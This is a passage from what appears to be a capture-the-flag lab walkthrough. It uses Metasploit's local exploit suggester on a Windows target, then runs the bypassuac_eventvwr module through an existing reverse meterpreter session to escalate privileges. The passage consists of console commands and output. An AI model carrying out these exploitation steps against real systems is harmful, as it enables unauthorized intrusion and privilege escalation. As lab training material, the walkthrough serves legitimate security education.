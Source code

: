 [*] 10.10.116.208 - Collecting local exploits for x86/windows...
[*] 10.10.116.208 - 29 exploit checks are being tried...
[+] 10.10.116.208 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.116.208 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.116.208 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.116.208 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.116.208 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.116.208 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.116.208 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.116.208 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.116.208 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

```

## #7+
now when we found the exploit, background by ```ctl+z``` the session and jump back to ```msf```. then use the first exploit to run another attack what will give us root privilages
```
msf5 exploit(windows/http/icecast_header) > use exploit/windows/local/bypassuac_eventvwr
msf5 exploit(windows/local/bypassuac_eventvwr) > show option
[-] Invalid parameter "option", use "show -h" for more information
msf5 exploit(windows/local/bypassuac_eventvwr) > show options 

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf5 exploit(windows/local/bypassuac_eventvwr) > sessions 

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.8.14.151:4444 -> 10.10.116.208:49261 (10.10.116.208)

msf5 exploit(windows/local/bypassuac_eventvwr) > set SESSION 1
SESSION => 1
msf5 exploit(windows/local/bypassuac_eventvwr) > set LHOST 10.8.14.151LHOST => 10.8.14.151
msf5 exploit(windows/local/bypassuac_eventvwr) > run
```
We can now verify that we have expanded permissions using the command ```getprivs```.
```
meterpreter > getprivs
